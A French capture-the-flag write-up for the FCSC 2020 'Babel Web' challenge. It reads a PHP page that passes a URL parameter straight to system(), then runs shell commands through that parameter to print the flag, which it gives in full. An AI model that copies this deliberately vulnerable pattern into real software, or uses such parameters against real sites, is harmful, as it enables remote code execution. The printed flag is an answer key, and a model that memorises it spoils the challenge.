 **Babel Web - Writeup FCSC 2020**

Très bien, commencons ce challenge par le début.

On commence avec un énoncé
```

On vous demande d’auditer ce site en cours de construction à la recherche d’un flag.

```

et deux hints.

On se connecte par la suite à l'URL du challenge (http://challenges2.france-cybersecurity-challenge.fr:5001/) et on tombe sur une très belle page d'accueil avec un style très rafinné x)

Très bien, passons aux choses sérieuses.

Observons le code source de la page:

```


<html>
	<head>
		<title>Bienvenue à Babel Web!</title>
	</head>	
	<body>
		<h1>Bienvenue à Babel Web!</h1>
		La page est en cours de développement, merci de revenir plus tard.
		<!-- <a href="?source=1">source</a> -->
	</body>
</html>



```


On y voit déjà un petit commentaire dont le contenu est une balise `<a>` dont le lien retourne vers http://challenges2.france-cybersecurity-challenge.fr:5001/?source=1 .

Allons donc voir ça de plus près: 

```

<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
<?php
    }
?>

```

Et voici donc le code source de l'index,

on y comprend vite une chose en regardant le code source : Qu'on va pouvoir executer des commandes à partir du paramètre ?code

Ajoutons-donc le paramètre ?code à l'URL de départ et essayons de lister les fichiers dans le répertoire courrant: http://challenges2.france-cybersecurity-challenge.fr:5001/?code=ls


<img src="https://img.onii.wtf/i/p0sk6.png">

On se retrouve donc bien avec les fichiers listés.

Essayons simplement de cat flag.php

<img src="https://img.onii.wtf/i/kq1z8.png">

Rien n'est retourné, essayons autrement, en incluant le fichier flag.php par exemple

Je vais utiliser le payload suivant pour afficher le flag:
```

php -r 'include "flag.php"; echo $flag;'

```

Je l'entre donc dans le paramètre ?code= 

Et que voici ? 

<img src="https://img.onii.wtf/i/xgcmi.png">


Le flag était donc : *FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}*

